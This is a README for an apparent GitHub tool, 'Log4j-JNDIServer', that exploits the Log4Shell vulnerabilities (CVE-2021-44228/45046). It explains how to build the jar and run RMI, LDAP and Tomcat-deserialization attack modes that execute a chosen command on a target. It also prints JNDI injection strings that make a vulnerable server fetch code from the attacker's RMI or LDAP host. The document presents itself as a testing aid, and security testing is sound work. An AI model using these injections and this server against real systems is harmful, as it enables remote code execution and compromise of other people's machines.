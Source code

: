 # Log4j-JNDIServer

This project will help to test the Log4j CVE-2021-44228/CVE-2021-45046 vulnerabilities.

## Installation and Building

- Load the project on Intellij Idea
- Select JDK in "Projects Settings"
- Create the artifact in "Project Settings" -> Artifacts -> Create JAR from Modules -> In "JAR files from libraries" mark "extract to target JAR"
- Build Project (CTRL + F9). This will create the jar file in /out/artifacts/ folder

### Building with Maven

Requires Java 1.8+ and Maven 3.x+

- `mvn clean package -DskipTests`
- You will find the .jar file in /target folder

## Usages 

### 1.RMI Attack Vector

`java -jar Log4j-JNDIServer.jar 1 <RMI_IP> <RMI_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

### 2.LDAP Attack Vector

`java -jar Log4j-JNDIServer.jar 2 <LDAP_IP> <LDAP_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:ldap://<LDAP_IP>:<LDAP_PORT>/Exploit}`

### 3.Deserialization Attack Vector (Using Tomcat payload)

`java -jar Log4j-JNDIServer.jar 3 <RMI_IP> <RMI_PORT> <COMMAND>`

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

## Examples


